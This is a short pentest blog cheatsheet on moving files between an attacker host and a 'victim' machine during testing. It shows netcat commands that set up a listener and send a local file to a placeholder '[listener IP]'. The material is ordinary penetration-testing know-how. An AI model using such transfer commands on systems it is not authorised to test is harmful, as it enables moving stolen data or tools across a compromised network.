 ```yaml
---
title: "File Transfer Cheatsheet"
date: 2022-05-11T16:09:30-04:00
categories:
  - Pentest
header:
  teaser: /assets/images/Pentest/file-transfers/file-transfer.png
tags:
  - File Transfer
  - Netcat
  - Apache
  - Python
---
```


![File Transfer Logo](/assets/images/Pentest/file-transfers/file-transfer.png)

When pentesting, you have to make do with whatever tools you have, especially if you can't download more.  
Figuring out which tool(s) you have available to get/put files between host and victim is essential.  

## Linux File Transfers  

### Netcat  

Transfer a single, specified file **out.file** and receive it as **in.file**

**Listener / Receiver**  

```bash
nc -l -p 8899 > in.file
```

**Host / Sender**  

```bash
# '-w 3' is a 3 second timeout

nc -w 3 [listener IP] 8899 < out.file
```  

